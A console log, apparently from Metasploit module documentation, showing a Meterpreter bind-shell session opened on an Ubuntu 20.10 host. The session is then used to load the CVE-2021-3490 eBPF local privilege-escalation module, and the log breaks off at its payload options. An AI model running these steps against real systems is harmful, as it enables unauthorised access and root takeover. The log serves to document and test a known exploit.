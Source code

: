 
### Ubuntu 20.10 (with Linux 5.8.0-25-generic)

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set RHOST 192.168.224.220
RHOST => 192.168.224.220
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.224.220:4444
[*] Sending stage (3012548 bytes) to 192.168.224.220
[*] Meterpreter session 1 opened (192.168.224.128:46051 -> 192.168.224.220:4444) at 2021-08-17 17:51:38 -0500

meterpreter > sysinfo
Computer     : 192.168.224.220
OS           : Ubuntu 20.10 (Linux 5.8.0-25-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: test @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe) > show options

Module options (exploit/linux/local/cve_2021_3490_ebpf_alu32_bounds_check_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```
